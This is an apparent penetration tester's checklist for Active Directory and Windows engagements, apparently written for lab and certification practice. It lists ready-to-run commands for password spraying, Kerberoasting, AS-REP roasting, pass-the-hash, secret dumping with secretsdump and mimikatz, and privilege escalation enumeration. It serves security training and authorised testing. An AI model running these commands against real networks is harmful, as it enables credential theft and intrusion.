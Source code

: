 # Penetration Test Checklist

## Unauthenticated Recon - Domain

* [ ] [Create a target list](../../active-directory/password-spraying/creating-a-target-user-list.md).
* [ ] Check for [AS-REPRoastable](../../active-directory/attacking-active-directory-authentication/as-rep-roasting.md) & [Kerberoastable](../../active-directory/attacking-active-directory-authentication/kerberoasting.md) users.&#x20;
* [ ] Bruteforce kerberos users via [kerbrute](../../active-directory/password-spraying/brute-force-password-spraying-linux-tools.md).



***

## Initial Compromise of Network

* [ ] nmap scan of internal network
* [ ] smb shares
* [ ] Check for[ AS-REPRoast](../../active-directory/attacking-active-directory-authentication/as-rep-roasting.md) & [Kerberoastable](../../active-directory/attacking-active-directory-authentication/kerberoasting.md) users.&#x20;

## Windows Privilege Escalation

{% embed url="https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation" %}

***

## Harvested a New Credential&#x20;

<mark style="color:yellow;">**Make sure to test twice**</mark>. Once for domain and once for  "<mark style="color:yellow;">**--local-auth**</mark>" to test local user passwords.

### Spray Passwords

* ```shell-session
  $ hydra -l "yoshi" -p 'Mushroom!' -M ips.txt rdp
  ```
* ```shell-session
  $ netexec smb ips.txt -u users.txt -p passwords.txt 
  ```
* ```shell-session
  $ netexec winrm ips.txt -u users.txt -p passwords.txt
  ```
* <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ netexec wmi ips.txt -u users.txt -p passwords.txt 
  </strong></code></pre>
* <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ netexec mssql ips.txt -u users.txt -p passwords.txt -local-auth
  </strong></code></pre>

### Manual Spray (if above didn't recover anything).

* ```shell-session
  $ proxychains evil-winrm -i 10.10.93.154 -u Administrator -p "Passwords"
  ```
* ```shell-session
  $ proxychains xfreerdp /v:10.10.93.154 /u:Administrator /p:password
  ```



***

## Harvested Domain Credential

### Kerbrute

* ```shell-session
  $ proxychains kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
  ```

### Kerberoast

* ```shell-session
  $ proxychains impacket-GetUserSPNs -request -dc-ip 10.10.113.146 corp.com/web_svc
  ```

### ASREP Roast

* ```shell-session
  $ proxychains impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
  ```

***

## Harvest new Hash

* [ ] Check with crackstation
* ```shell-session
  $ NetExec rdp 192.168.215.175 -u users.txt -H hashes.txt
  ```

***

## Harvested a new Private Key

### Spray Intranet (.ssh)

If we have a shell on a box and notice a user has a private key in their home directory, we should test it against all computers with ssh open.

* ```shell-session
  victim@host$ ssh -i id_rsa mario@172.16.233.14
  ```

***

## Popped a new Shell

### Manual Enumeration

* [ ] [Check **ALL** privileges](../windows-privilege-escalation/escalating-privilege.md#insecure-privileges) "whoami /priv" for potential exploits
* [ ] Check for sensitive files
* [ ] Check for potential binary hijacking
* [ ] Check for scheduled tasks / services running under other users.



### Domain Connected User

#### Check ACL's/ACE's

* [ ] bloodhound / sharphound
* [ ] powerview

### PWNED Shell?- Dump Secrets!

* <pre class="language-shell"><code class="lang-shell"><strong>$ proxychains impacket-secretsdump -hashes ":e728ecbadfb02f51ce8eed753f3ff3fd" celia.almeda@10.10.85.142
  </strong></code></pre>
* <pre class="language-powershell"><code class="lang-powershell"><strong>PS> .\mimikatz.exe
  </strong></code></pre>

***

## Privilege Escalation - Windows

### Automated Enumeration

* <pre class="language-powershell"><code class="lang-powershell"><strong>PS> .\winPEASx64.exe
  </strong></code></pre>
* ```powershell
  PS> powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
  ```

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md" %}

### Manual Enumeration

* ```
  systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Network Card(s)" /C:"Hotfix(s)"
  ```
* ```
  whoami /priv
  ```
* ```
  net user <user>
  ```
* ```
  net localgroup administrators
  ```
* ```
  cmd.exe /c dir /a C:\
  ```
* ```
  ls "program files"
  ```
* ```
  netstat -nao
  ```
* ```
  .\SharpHound -c All --domain medtech.com --zipfilename MEDTECH.zip
  ```

***

## Active Directory Lateral Movement

* [ ] bloodhound / sharphound (Shortest path to high value targets)
* [ ] Certify / Certipy - Check for vulnerable ADCS's
* [ ] mimikatz
* [ ] netexec spray passwords & hashes











## Crying for help?

* [ ] Check [HackerRecipes](https://www.thehacker.recipes/ad/recon)

